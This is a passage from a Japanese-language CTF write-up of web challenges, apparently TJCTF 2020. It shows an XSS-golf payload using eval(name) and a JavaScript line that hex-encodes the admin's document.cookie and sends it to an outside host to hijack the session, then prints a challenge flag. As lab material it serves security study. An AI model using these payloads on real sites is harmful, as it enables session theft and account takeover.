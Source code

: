 ```html
<script>/*
︙
<script>
/* (なんかコメント) */
window.onerror = function () {
    return true;
}
</script>
```

10 文字でも不十分に思えますが、こういう XSS ゴルフで使えるテクニックとして [`eval(name)`](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) があります。試しに以下のような HTML を開いてみるとアラートが表示されました。

```html
<script>
window.name = 'alert(123)';
window.location = 'https://(省略)/search?q=%3Cscript%3Eeval(name)/*';
</script>
```

`location="https://(省略)?"+document.cookie.split("").map(c=>c.charCodeAt(0).toString(16)).join("")` を admin に実行させるとセッション ID が取得でき、Cookie にセットしてから `/admin` にアクセスするとフラグが得られました。

```
tjctf{trunc4t3d_n0_pr0bl3m_rly???}
```

## [Web 100] Admin Secrets (71 solves)
> See if you can get the flag from the admin at this website!

与えられた URL にアクセスすると、以下のような Pastebin 的な Web アプリケーションが表示されました。

![Admin Secrets](../images/2020-05-28_admin-secrets.png)

記事を投稿するとパーマリンクが生成され、`Report to Admin` というボタンを押せば admin に巡回させることができます。
